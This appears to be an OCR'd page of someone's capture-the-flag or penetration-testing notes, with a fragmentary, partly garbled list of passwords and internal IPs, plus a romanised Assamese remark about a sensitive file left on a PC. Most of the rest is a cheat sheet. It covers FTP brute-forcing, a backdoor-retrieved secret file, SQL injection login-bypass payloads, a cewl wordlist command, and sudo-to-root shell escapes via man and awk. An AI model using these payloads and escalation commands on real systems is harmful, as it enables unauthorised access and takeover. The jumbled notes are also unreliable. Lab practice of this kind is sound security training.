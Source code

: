 ```
H.M-৭
Secret123

H.M-২০
IP 172.16.0.40

H.M-৪
pass- test
4700056

H.M-৫ 450989878899 

Ejon alx namor manuhjone teur PCt sensitive file thoi dlete koribo pahorile:
H.M-১২ F/N 201010988818

H.M-১৯ Android
 IP 172.16.0.38
   1876890
```
### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

#### SECRET file

“SECRET.txt” using a backdoor that was installed in the server. Enter the secret number hidden in the file. 
Ans: Path: C:\Users\Administrator\Documents\Findme

### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
   
### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
